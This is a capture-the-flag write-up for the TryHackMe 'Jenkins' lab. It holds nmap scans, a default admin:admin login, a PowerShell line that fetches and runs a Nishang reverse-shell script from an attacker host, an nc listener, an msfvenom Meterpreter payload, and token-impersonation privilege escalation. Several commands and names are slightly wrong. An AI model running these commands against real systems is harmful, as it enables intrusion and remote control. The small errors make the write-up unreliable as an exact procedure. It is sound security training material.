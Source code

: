 # 🧠 **Jenkins - TryHackMe Write-up**

## 🛠️ **Info**
- **IP Address:** 10.10.169.235
- **Difficulty:** Easy, Windows
- **Date:** April 2025
- **Goal:** Capture `user.txt` and `root.txt` 🏁

---

## 🔍 **Enumeration**

### Starting with an Nmap scan:

We begin by scanning open ports:

```bash
sudo nmap -p- --min-rate 10000 -T4 --open 10.10.169.235 -Pn

```
# Initial Scan Results

We ran a quick Nmap scan and discovered three open ports:

- **Port 80**: HTTP (IIS)
- **Port 3389**: RDP (Remote Desktop Protocol)
- **Port 8080**: HTTP (Jetty Server)

Now, let's do a more detailed scan:

```bash
nmap 10.10.169.235 -sV -sC -A -vv -oA agr_scan -T4 -p80,8080,3389 -Pn
```

The scan revealed:

- **Port 80**: IIS 7.5
- **Port 3389**: RDP with SSL certificate (alfred)
- **Port 8080**: Jetty 9.4.z-SNAPSHOT (Jenkins login page)

The fun begins on **Port 8080**, which hosts the Jenkins login page. Trying the default credentials (`admin:admin`) got us logged into the admin account. 🎉

## Initial Foothold

Since we’re dealing with a Jenkins CMS, we check the version:

- **Jenkins Version**: 2.190.1

There are no public exploits available for this version, so we need to get creative and find a way to execute commands on the target machine to upload a payload.

## Exploit: Using the Script Console in Jenkins

We know there’s an IIS server running, so we’ll use a PowerShell payload to execute a reverse shell. We'll use the script from Nishang:

Invoke-PowerShellTcp.ps1 **You can get this payload from GitHub**

powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port


This command allows us to download and execute the payload. Set up a listener on your attacking machine:

```bash
nc -lvnp 4444
```
Upload the payload using a Python server and execute it. 🎯

If this doesn't work, don’t panic! ChatGPT saved the day by suggesting a Groovy payload for the Jenkins console, which worked like a charm.

## Privilege Escalation

Now that we have user access, let's enumerate for possible Privilege Escalation (PrivEsc) opportunities. We use the following command:

```bash
whoami /priv
```
This reveals that **SeImpersonatePrivilege** is enabled, giving us a perfect opportunity for Privilege Escalation.

# Exploiting the Machine

We’re going to exploit the machine by creating a reverse Meterpreter shell and setting up a listener in Metasploit. Here's the process step-by-step:

## Step 1: Generate the Payload
Use `msfvenom` to create a reverse Meterpreter payload:


```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

**Explanation:**
- `LHOST` is your local IP.
- `LPORT` is the port you’ll listen on.
- `shell-name.exe` is the name of the payload.

## Step 2: Set Up the Listener
Start Metasploit and set up a listener to catch the reverse shell:

```bash
msfconsole use exploit/multihandler use payload windows/meterpreter
```
Set the appropriate options for `LHOST` and `LPORT` as per your setup.

## Step 3: Serve the Payload
Use a Python HTTP server to send the payload to the target machine:


```bash
python -m SimpleHTTPServer 8080
```
Download the payload onto the target machine and execute it. The listener you set up should now catch the reverse shell.

## Step 4: Launch the Payload
On the target machine, run the following to execute the payload: `rshell.exe`


The Meterpreter shell should now be connecting.

## Step 5: Escalate Privileges with Token Impersonation
Now that we have a shell, we need to elevate our privileges.

Run the following to list available tokens:`token_list -g`


Identify the `BUILTIN\Administrator` token and impersonate it. This will allow us to become `NT\Authority`.

## Step 6: Migrate to a New Process
To solidify our root privileges, migrate to a process running with the primary token. In this case, we’ll migrate to `spoolsvc.exe`: `migrate <PID>`


Now, you should have full privileges.

## Step 7: Read the Root Flag
At this point, you're Administrator (or root). To read the root flag, navigate to the flag's location and open it. `cat root.txt`


## Conclusion
That’s it! You've successfully exploited the machine by using token impersonation and migration to escalate privileges and capture the flag.

**Happy Hacking!**










